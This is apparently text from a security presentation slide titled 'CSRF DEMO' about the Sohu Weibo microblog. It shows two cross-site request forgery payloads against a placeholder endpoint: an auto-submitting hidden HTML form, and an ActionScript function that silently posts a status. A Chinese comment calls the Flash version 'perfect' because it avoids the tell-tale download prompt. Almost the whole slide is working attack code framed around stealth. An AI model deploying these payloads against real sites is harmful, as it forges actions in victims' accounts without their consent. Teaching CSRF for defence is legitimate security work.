

# CSRF DEMO
搜狐微博
<form action="http://t.xxx.com/article/updatetweet" method="post">
<input type="hidden" name="status" value="html_csrf_here." />
</form>
<script>document.forms[0].submit();</script>

成功后会提示JSON文件下载提示，这样的CSRF就容易暴露

import flash.net.URLRequest;
function post(msg){
    var url = new URLRequest("http://t.xxx.com/article/updatetweet");
    var _v = new URLVariables();
    _v = "status="+msg; url.method = "POST"; url.data = _v;
    sendToURL(url);
}
post('flash_csrf_here'); // 完美 :)